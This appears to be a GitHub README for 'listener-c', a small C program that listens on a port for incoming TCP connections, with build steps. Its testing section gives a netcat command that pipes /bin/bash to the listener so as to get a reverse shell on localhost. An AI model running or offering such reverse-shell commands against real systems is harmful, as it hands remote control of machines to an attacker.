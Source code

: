 # listener-c

This program listens to connections on a specified port and estabilishes a TCP connection to send and recieve data!

Note: this is specifically made to unix systems, if you want to compile this in windows, try cygwin.

Note: Remember to change the PORT define in the code to specify a port.

### Compiling with gcc

```bash
git clone https://github.com/ArthurAMP/listener-c/
cd listener-c
gcc listener.c -o listener
```

### Running the program

```bash
./listener
```

### Testing locally (using netcat)

While running the listener, run this command in another terminal

```
nc 127.0.0.1 8888 -e /bin/bash
```

If all goes well, you will have a reverse shell that you can control on the terminal in which you ran the listener. 

Remember to change 8888 to the port you specified. 
